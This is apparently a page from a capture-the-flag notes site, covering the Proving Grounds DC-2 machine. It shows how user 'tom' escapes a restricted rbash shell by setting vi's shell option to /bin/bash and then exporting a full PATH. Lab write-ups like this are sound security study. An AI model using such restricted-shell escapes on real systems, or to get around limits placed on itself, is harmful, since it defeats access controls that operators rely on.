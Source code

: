 ```yaml
---
layout: default
title: rBash Issue
parent: Shells
nav_order: 2
---
```


# rBash Issue

---

## Break out to /bin/bash Shell

We initially do not have the ability to run any commands and receive _rbash_ errors.

![error](.././../../assets/images/ctfs/proving_grounds/dc-2/error.png)

We can overcome this by using _vi_ to break out to a _/bin/bash_ shell

```bash
tom@DC-2:~$ vi

# Set the "shell" variable in vi text  editor
:set shell=/bin/bash
return

# Call the "shell" variable to exit vi with a /bin/bash shell
:shell
return

# Export PATH to global distro paths
tom@DC-2:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

```

![set_shell](../../../../assets/images/ctfs/proving_grounds/dc-2/set_shell.png)

![use_shell](../../../../assets/images/ctfs/proving_grounds/dc-2/use_shell.png)
